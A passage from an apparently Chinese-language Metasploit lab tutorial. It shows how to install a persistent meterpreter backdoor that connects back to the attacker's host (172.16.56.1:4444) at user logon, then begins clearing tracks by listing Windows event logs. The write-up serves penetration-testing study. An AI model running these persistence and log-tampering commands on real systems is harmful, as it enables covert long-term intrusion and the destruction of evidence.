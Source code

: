成功了：

![Screen Shot 2018-10-23 at 6.40.01 PM.png]({{ site.url }}/images/metasploit/2.png)

---

渗透阶段接近尾声，我们留一个持久化后门（参考[Metasploit 「控制持久化」权限维持](https://www.bodkin.ren/index.php/archives/431/)）：

```
meterpreter > run persistence -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L <opt>  Location in target host to write payload to, if none %TEMP% will be used.
    -P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T <opt>  Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i <opt>  The interval in seconds between each connection attempt
    -p <opt>  The port on which the system running Metasploit is listening
    -r <opt>  The IP of the system running Metasploit listening for the connect back
```

我们使用

```
run persistence -U -i 10 -p 4444 -r 172.16.56.1
```

![Screen Shot 2018-10-19 at 10.44.14 AM.png]({{ site.url }}/images/metasploit/D693364CB4A7920AAF902C025A210CC5.png)

然后就可以在别的msfconsole中开启监听，稍微等几秒钟就有shell连上来：

![Screen Shot 2018-10-19 at 10.58.17 AM.png]({{ site.url }}/images/metasploit/670786A7A372A5CED41814E5D214567E.png)

删除相关vbs脚本、注册表键值并结束cscript.exe进程就可删除后门。

最后，尝试一下清理痕迹的功能：

首先查看一下都有什么痕迹：

```
meterpreter > run event_manager -i
[*] Retriving Event Log Configuration

Event Logs on System
====================

 Name                    Retention  Maximum Size  Records
 ----                    ---------  ------------  -------
 Application             Disabled   20971520K     940
 HardwareEvents          Disabled   20971520K     0
 Internet Explorer       Disabled   K             0
 Key Management Service  Disabled   20971520K     0
 Media Center            Disabled   8388608K      0
 Security                Disabled   20971520K     2698
 System                  Disabled   20971520K     3030
 ThinPrint Diagnostics   Disabled   K             22
 Windows PowerShell      Disabled   15728640K     321
 ```
